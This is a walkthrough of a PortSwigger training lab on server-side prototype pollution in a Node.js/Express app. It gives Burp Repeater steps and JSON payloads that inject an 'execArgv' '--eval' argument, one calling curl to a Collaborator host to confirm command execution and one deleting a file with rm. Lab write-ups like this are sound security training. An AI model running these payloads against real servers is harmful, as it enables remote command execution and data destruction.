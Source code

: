 # Remote code execution via server-side prototype pollution

[This lab](https://portswigger.net/web-security/prototype-pollution/server-side/lab-remote-code-execution-via-server-side-prototype-pollution) is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

Due to the configuration of the server, it's possible to pollute `Object.prototype` in such a way that arbitrary system commands can be injected, that are executed on the server.

## Reproduction and PoCs

### Study the address change feature

1. Log in with `wiener:peter` and visit the account page. Submit the form for updating your billing and delivery address.
2. In Burp, go to the **Proxy -> HTTP history** tab and find the `POST /my-account/change-address` request.
3. When submitting the form, the data from the fields is sent to the server as JSON. The server responds with a JSON object that appears to represent your user. This has been updated to reflect the new address information.
4. Send the request to Burp Repeater.

### Identify a prototype pollution source

1. In Repeater, add a new property to the JSON with the name `__proto__`, containing an object with a json spaces property.

```text
"__proto__": {
    "json spaces":10
}
```

2. Send the request.
3. In the Response panel, switch to the **Raw** tab. Notice that the JSON indentation has increased based on the value of your injected property. This strongly suggests that you have successfully polluted the prototype.

### Probe for remote code execution

1. In the browser, go to the admin panel and observe that there's a button for running maintenance jobs.
2. Click the button and observe that this triggers background tasks that clean up the database and filesystem. This is a classic example of the kind of functionality that may spawn node child processes.
3. Try polluting the prototype with a malicious `execArgv` property that adds the `--eval` argument to the spawned child process. Use this to call the `execSync()` sink, passing in a command that triggers an interaction with the public Burp Collaborator server. For example:

```text
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```

4. Send the request.

![Prototype pollution](../../_static/images/pp21.png)

5. In the browser, go to the admin panel and trigger the maintenance jobs again. Notice that these have both failed this time.
6. In Burp, go to the **Collaborator** tab and poll for interactions. Several DNS interactions, confirming the remote code execution have been received.

![Prototype pollution](../../_static/images/pp22.png)

### Craft an exploit

1. In Repeater, replace the curl command with a command for deleting Carlos's file:

```text
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```

2. Send the request.

![Prototype pollution](../../_static/images/pp23.png)

3. Go back to the admin panel and trigger the maintenance jobs again. Carlos's file is deleted and the lab is solved.

![Prototype pollution](../../_static/images/pp24.png)

## Exploitability

The command execution sink is only invoked when an admin user triggers vulnerable functionality on the site. An attacker will need to already have escalated privileges, giving access to admin functionality; find a prototype pollution source that can be used to add arbitrary properties to the global `Object.prototype`; identify a gadget that can be used to inject and execute arbitrary system commands; and trigger remote execution of a command that deletes the file `/home/carlos/morale.txt`. 
